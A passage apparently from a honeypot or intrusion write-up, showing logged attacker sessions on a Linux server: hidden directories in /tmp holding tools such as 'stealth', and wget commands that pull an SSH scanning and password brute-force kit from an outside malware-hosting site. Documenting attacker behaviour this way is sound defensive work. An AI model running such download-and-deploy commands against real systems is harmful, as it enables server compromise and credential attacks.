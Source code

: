     server:/tmp/.user# ls -a
    .        ..       .kde.tgz .kde     .kde     bila.tgz .tmp

    server:/tmp/.user# cd .tmp

    server:/tmp/.user/.tmp# ls -a
    .       ..      cyc.acc  -bash  s.sh    cyc.set pico    stealth

    server:/tmp/.user/.tmp# ./stealth
    unable to open display ":0"

## Fifth example

Another straightforward attempt. Also here, the website http://arhiva.do.am seems to be used as a dump for hosting malware.

    server:~# wget http://arhiva.do.am/dabian.tgz
    --2011-01-27 00:18:22--  http://arhiva.do.am/dabian.tgz
    Connecting to arhiva.do.am:80... connected.
    HTTP request sent, awaiting response... 404 Not Found

    server:~# wget http://arhiva.do.am/arhiva.tgz
    --2011-01-27 00:18:57--  http://arhiva.do.am/arhiva.tgz
    Connecting to arhiva.do.am:80... connected.
    HTTP request sent, awaiting response... 404 Not Found

    server:~# wget http://arhiva.do.am/scan.tar
    --2011-01-27 00:19:28--  http://arhiva.do.am/scan.tar
    Connecting to arhiva.do.am:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 1484800 (1M) [application/octet-stream]
    Saving to: `scan.tar

    100%[======================================>] 1,484,800    518K/s  eta 0s

    2011-01-27 00:19:31 (518 KB/s) - `scan.tar' saved [1484800/1484800]

    server:~# tar xvf scan.tar
    scan
    scan/sshf
    scan/a6
    scan/start
    scan/pass_sh
    scan/a5
    scan/gen-pass.sh
    scan/ssh-scan
    scan/test.sh
    scan/README
    scan/200.pscan.22
    scan/pass_file
    scan/sshf0
    scan/pscan2
    scan/pico
    scan/pass_filees
    scan/vuln.txt
    scan/a4
    scan/a1
    scan/a2
    scan/mfu.txt
    scan/a
    scan/common
